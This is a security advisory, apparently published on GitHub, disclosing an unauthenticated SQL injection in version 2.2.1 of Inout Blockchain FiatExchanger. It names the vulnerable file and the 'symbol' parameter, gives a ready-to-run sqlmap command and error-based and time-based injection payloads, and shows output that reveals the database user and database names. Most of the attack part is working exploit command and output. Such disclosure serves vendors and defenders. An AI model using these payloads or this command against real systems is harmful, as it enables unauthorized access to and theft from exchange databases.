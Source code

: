 # Information
```
Vulnerability Name  : Remote SQL Injections in Inout Blockchain FiatExchanger
Product             : Inout Blockchain FiatExchanger
version             : 2.2.1
Date                : 2022-05-21
Vendor Site         : https://www.inoutscripts.com/products/inout-blockchain-fiatexchanger/
Exploit Detail      : https://github.com/bigb0x/CVEs/Inout-Blockchain-FiatExchanger-221-sqli.md
CVE-Number          : In Progess
Exploit Author      : Mohamed N. Ali @MohamedNab1l
```
<br>

# Description
<br>

SQL injection attack has been discovered in Blockchain FiatExchanger v2.2.1 platform. This will allow remote non-authenticated attackers to inject SQL code. This could result in full information disclosure.
<br>

## Vulnerable Parameter: symbol (GET)

<br>

Vulnerability File: /application/third_party/Chart/TradingView/chart_content/master.php line 130

<br>

### Sqlmap command:
`
python sqlmap.py -u "http://http://vulnerable-host.com/application/third_party/Chart/TradingView/chart_content/master.php/history?from=1652675947&resolution=5&symbol=BTC-BCH" -p symbol --dbms=MySQL --banner --random-agent --current-db --dbs --current-user

`
<br>

### output:
`
[20:05:54] [INFO] fetched random HTTP User-Agent header value 'Opera/9.20(Windows NT 5.1; U; en)' from file '/root/sqlmap/data/txt/user-agents.txt'
[20:05:55] [INFO] testing connection to the target URL
[20:05:55] [WARNING] there is a DBMS error found in the HTTP response body which could interfere with the results of the tests
sqlmap resumed the following injection point(s) from stored session:

Parameter: symbol (GET)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: from=1652675947&resolution=5&symbol=BTC-BCH' AND (SELECT 1746 FROM(SELECT COUNT(*),CONCAT(0x71707a6b71,(SELECT (ELT(1746=1746,1))),0x7171627671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'hIKU'='hIKU

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: from=1652675947&resolution=5&symbol=BTC-BCH' AND (SELECT 4566 FROM (SELECT(SLEEP(5)))kVcR) AND 'JGrB'='JGrB

[20:05:55] [INFO] testing MySQL
[20:05:56] [INFO] confirming MySQL
[20:05:57] [INFO] the back-end DBMS is MySQL
[20:05:57] [INFO] fetching banner
[20:05:57] [INFO] resumed: '5.6.50'
web application technology: PHP 7.0.33
back-end DBMS: MySQL >= 5.0.0
banner: '5.6.50'
[20:05:57] [INFO] fetching current user
[20:05:57] [INFO] retrieved: 'root@localhost'
current user: 'root@localhost'
[20:05:57] [INFO] fetching current database
[20:05:57] [INFO] resumed: 'inout_blockchain_fiatexchanger_db'
current database: 'inout_blockchain_fiatexchanger_db'
[20:05:57] [INFO] fetching database names
[20:05:57] [INFO] resumed: 'information_schema'
[20:05:57] [INFO] resumed: 'inout_blockchain_fiatexchanger_addons_db'
[20:05:57] [INFO] resumed: 'inout_blockchain_fiatexchanger_cryptotrading_db'
[20:05:57] [INFO] resumed: 'inout_blockchain_fiatexchanger_db'
[20:05:57] [INFO] resumed: 'mysql'
[20:05:57] [INFO] resumed: 'performance_schema'
available databases [6]:
[*] information_schema
[*] inout_blockchain_fiatexchanger_addons_db
[*] inout_blockchain_fiatexchanger_cryptotrading_db
[*] inout_blockchain_fiatexchanger_db
[*] mysql
[*] performance_schema

`
<br>
<img src="./resources/Blockchain-FiatExchanger-221-sqlmap1.png">
<br>
<img src="./resources/Blockchain-FiatExchanger-221-sqlmap2.png">
<br>


## Timeline
```
2022-05-03: Discovered the bug
2022-05-03: Reported to vendor
2022-05-21: Advisory published
```

<br>

## Discovered by
```
Mohamed N. Ali
@MohamedNab1l
ali.mohamed@gmail.com

```
